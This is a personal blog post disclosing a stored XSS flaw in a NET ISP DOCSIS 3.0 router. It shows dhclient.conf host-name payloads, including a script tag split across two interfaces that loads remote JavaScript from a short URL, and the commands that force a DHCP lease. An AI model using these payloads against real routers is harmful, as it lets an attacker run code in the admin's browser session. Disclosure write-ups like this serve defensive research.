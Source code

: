 ```yaml
---
layout: post
title: Hacking into NET router for fun and profit [FULL DISCLOSURE] 
description: Again, another vulnerability on net router, but this time it's much more fun. 
keywords: router, disclosure, xss, G4mbl3r
disqus: true
tags: [XSS]
categories: Persistence
---
```

#### Hacking into NET router for fun and profit [FULL DISCLOSURE] 
Recently I moved to another city to live alone, and as needed I contract the only ISP available on my building, NET, one of the worst ISP on Brazil, they just decided to block all my output connections on port 22/ssh, but it's another history.

I have an history pwning [NET router](https://www.exploit-db.com/exploits/42284/), and as I was bored today and decided to play around with my brand new net router.

The first thing I tried on that was an command injection on ping function. It didn't work, but gave the output of what a sent, so I realized that was a lot of XSS possibilities on this router. The first place I tried, was on ping function again, but there was some control that did not allow me to sent especial characters, beyond that, it's not a good place to get a XSS, I needed a XSS stored on this precious router, and then a divine light open my mind, and made me test the first page of the router, where they show the DHCP leases. This page contains host name, ip address and mac address of each host so I thought maybe I could manipulate the host name of my host and sent a malicious data. In a simple Google search, I realized that I just need to change one line on dhclient config file (/etc/dhcp/dhclient.conf)

```bash
send host-name = "<script>alert('HACKED')</script>";
```

Sadly it didn't work. I opened the html source and saw that the last character wasn't there so I figured out that there was a limit on the host name size only 31 characters. Just to validate the XSS, I removed the HACKED string to force the lease and it works and then my saga started to get something more interesting then a alert().

I created a payload.js and hosted it on a VPS and tried a lot of techniques to make the content of this file executed by the browser, but none of then worked. I got close using the site [l.ly](https://l.ly) to short my url, but due the "XXX" character, it didn't work.

```bash
send host-name = "<script src=//l.ly/uXa></script>";
```

So I thought in buying a short domain like l.ly and host my payload file named as 1 and my problem would be resolved, but it's extremely expensive and I don't have money to do that. After hours thinking the best way to do that, I realized how stupid I am: the only thing I needed, is just another network interface, to create this output on the router.

```html
<tr><td>10</td><td><script src=//l.ly/uXa><!--</td><td>f4:96:34:25:65:c5</td><td>192.168.0.44</td></tr>
<tr><td>10</td><td>--></script></td><td>f4:96:34:25:65:c5</td><td>192.168.0.44</td></tr>
```

I just splitted the payload on my 2 interfaces, the first interface receives the follow payload,

```bash
send host-name = "<script src=//l.ly/uXa><!--";
```

Where I have the start of the payload, and a HTML comment, to ignore everything after my tag script, and the second payload,

```bash
send host-name = "--></script>";
```
I just closed the comment, and inserted the end of the tag script, I forced the interfaces to lease the ip address and request again, and then I finally got my XSS payload been executed.

```bash
dhclient -r && dhclient
```

![hacked](/assets/images/router-hacked.png "hacked")

#### About the router
Below is information about the router

|Description        | Version      	|
|-------------------| -------------:|
|Technology 		| docsis 3.0	|
|Hardware Version 	| V2.00			|
|Software Version 	| 09.89.17.23.03|

